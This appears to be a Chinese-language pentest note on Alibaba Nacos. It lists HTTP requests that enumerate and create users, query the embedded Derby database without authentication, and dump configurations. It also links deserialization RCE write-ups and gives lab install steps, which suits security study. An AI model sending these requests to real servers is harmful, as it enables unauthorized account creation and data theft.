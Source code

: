 ### 查看用户
```
GET /nacos/v1/auth/users?pageNo=1&pageSize=100
```

### 创建用户
```
POST /nacos/v1/auth/users?username=test&password=test123
```

### unauth
```
/nacos/v1/cs/ops/derby?sql=select+st.tablename+from+sys.systables+st
```

> These endpoints are only valid when using embedded storage (derby DB) so this issue should not affect those installations using external storage (e.g. mysql)

- https://securitylab.github.com/advisories/GHSL-2020-325_326-nacos/
- https://www.cnblogs.com/hack404/p/14697313.html

```
/nacos/v1/cs/configs?dataId=&group=&appName=&config_tags=&pageNo=1&pageSize=100&tenant=&search=accurate
```

### 反序列化漏洞
- https://exp10it.cn/2023/06/nacos-jraft-hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-rce-%E5%88%86%E6%9E%90/
- https://github.com/c0olw/NacosRce/tree/main
- https://y4er.com/posts/nacos-hessian-rce/


## 安装
https://github.com/alibaba/nacos/releases/download/2.0.3/nacos-server-2.0.3.zip
```
unzip -q nacos-server-2.0.3.zip
bin/startup.sh -m standalone
```

![image](https://user-images.githubusercontent.com/30398606/173304250-3c57144d-6b7b-4291-bc31-473c07cf504b.png)


## 参考
- [Nacos结合Spring Cloud Gateway RCE利用](https://xz.aliyun.com/t/11493)
- [Nacos Client Yaml反序列化漏洞分析](https://xz.aliyun.com/t/10355)
- https://github.com/google/tsunami-security-scanner-plugins/issues/118
- https://github.com/google/tsunami-security-scanner-plugins/issues/119
- https://github.com/alibaba/nacos/issues/1105
- [云原⽣组件Nacos新型红队手法研究](https://mp.weixin.qq.com/s/Jwwd5ailKNhwR57ACXB1kQ)
